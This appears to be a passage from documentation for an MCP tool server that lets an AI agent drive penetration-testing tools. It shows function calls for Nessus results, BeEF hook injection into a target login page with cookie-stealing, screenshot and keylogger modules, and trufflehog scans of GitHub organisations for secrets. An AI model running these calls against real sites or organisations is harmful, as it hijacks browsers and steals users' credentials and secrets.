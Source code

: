 ```python
    folder_id=2
)

# Get Nessus scan results
await get_nessus_results(
    scan_id=123,
    nessus_url="https://localhost:8834",
    access_key="your_access_key",
    secret_key="your_secret_key",
    export_format="nessus"
)
```

#### 2. Browser Exploitation with BeEF
```python
# MCP Function Call - Basic BeEF hook injection
await exploit_with_beef(
    target_url="https://example.com",
    beef_server="http://localhost:3000",
    beef_user="beef",
    beef_pass="beef",
    hook_method="iframe"
)

# MCP Function Call - Advanced BeEF with payloads
await exploit_with_beef(
    target_url="https://example.com/login",
    beef_server="http://your-beef-server:3000",
    beef_user="admin",
    beef_pass="strongpassword",
    hook_method="social",
    payload_modules="get_cookie,screenshot,keylogger"
)

# Direct BeEF Usage
# Start BeEF server: cd ~/tools/beef && ./beef
# Access web interface: http://localhost:3000/ui/panel
# Hook browsers and execute modules
```

---

## 🔐 **Phase 5: Secret & Credential Hunting**

#### 1. Git Repository Secret Scanning
```python
# MCP Function Call - GitHub org scan
await scan_secrets(
    target="example-org",
    scan_type="github",
    github_token="your_github_token",
    threads=10
)

# MCP Function Call - Git repository scan
await scan_secrets(
    target="https://github.com/example/repo.git",
    scan_type="git",
    threads=8
)

# Direct Commands
trufflehog github --org=example-org --token=your_token -j 10 --json
```
